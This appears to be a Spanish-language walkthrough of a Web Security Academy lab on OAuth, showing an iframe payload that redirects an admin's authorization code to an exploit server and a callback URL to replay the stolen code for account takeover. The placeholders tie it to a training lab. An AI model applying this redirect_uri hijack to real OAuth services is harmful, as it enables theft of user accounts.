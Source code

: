 ```HTML
<iframe src="https://YOUR-LAB-OAUTH-SERVER-ID.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

Lo más fácil es seleccionar la request que contiene el parámetro *redirect_uri*, cambiar el valor de este con la dirección de nuestro servidor del exploit y seguidamente botón derecho del ratón y seleccionar "Copy URL". Luego pegamos dicha URL en el atributo src del código anterior.

Así, al darle al "Deliver to victim" mandaríamos un enlace al administrador que cargaría en su navegador al página con el iframe que induciría mediante la URL a llevar a cabo una request con esos atributos y seguidamente una redirección a nuestro servidor del exploit.

De esta forma, en este último podríamos encontrar el código de acceso en el /log y seguidamente bastaría con dirigirnos a la URL:

```default
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE
```

Para autenticarnos como el administrador.

<br />


